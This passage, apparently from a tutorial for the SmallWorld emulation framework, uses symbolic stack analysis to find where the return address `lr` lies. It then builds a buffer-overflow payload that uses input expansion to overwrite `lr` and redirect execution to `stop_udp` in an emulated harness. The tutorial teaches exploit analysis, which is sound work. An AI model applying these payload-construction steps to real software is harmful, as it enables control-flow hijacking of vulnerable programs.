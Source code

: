 Then, we must label our input register `lr` so that we can determine where it appears in the stack, just as we did before with our input buffer.

```python
cpu.lr.set_label("lr")
```

Finally, we can remove any unneeded debugging information that we were printing before, leaving just the symbolic stack memory. When we execute this analysis, we see that the resulting bitvector is full of logic in this case, giving some insight into the complexity of the code under analysis. More importantly, we can pinpoint exactly where `lr` ended up — the top 32 bits of the stack.

```
...
(if ((if (0#24 .. input_buffer[7:0]) - 0x61 >= 0x19 then 0x1 else 0x0) & ~(0#31 .. (if input_buffer[7:0] == 122 then 1 else 0))) != 0x1 then (if ((if (0#24 .. input_buffer[7:0]) - 0x61 >= 0x19 then 0x1 else 0x0) & ~(0#31 .. (if input_buffer[7:0] == 122 then 1 else 0))) != 0x1 then (0#24 .. input_buffer[7:0]) - 0x20 else (0#24 .. input_buffer[7:0]))[7:0] else input_buffer[7:0]) .. Reverse(reg_18_5_32) .. Reverse(reg_1c_4_32) .. Reverse(reg_20_3_32) .. Reverse(reg_24_2_32) .. Reverse(reg_28_1_32) .. Reverse(lr)>
```

### Constructing a Payload
Knowing that `lr` takes up the top 4 bytes of the stack and that `input_buffer` starts 40 bytes below the top of the stack, we can determine that our payload must include 36 bytes of padding followed by our desired 4-byte return address.

To compress 36 bytes into the first 12 bytes of `input_buffer`, we can take advantage of the expanding behavior discovered during dynamic analysis. The 8-byte expression `b"8a8b8c8d"` will expand to 32 bytes when processed. The remaining 4 bytes of padding can be any non-numeric character. Afterwards, we can include the address of `stop_udp`, which should be marked as our exit point.

```python
# Entry point / exit point
entry_point = code.get_symbol_value("smallworld_bug")
stop_udp_addr = code.get_symbol_value("stop_udp")
exit_point = stop_udp_addr
cpu.pc.set(entry_point)
emulator.add_exit_point(exit_point)

...

# Input buffer
buffer_memory_address = 0x1000
input_bytes = b"8a8b8c8d\0\0\0\0" + stop_udp_addr.to_bytes(
    4, code.platform.byteorder.value
)
buffer_memory = smallworld.state.memory.RawMemory.from_bytes(
    input_bytes, buffer_memory_address
)
```

Additionally, we can confirm that our harness reaches `stop_udp` by checking the value of `pc` after executing our harness.
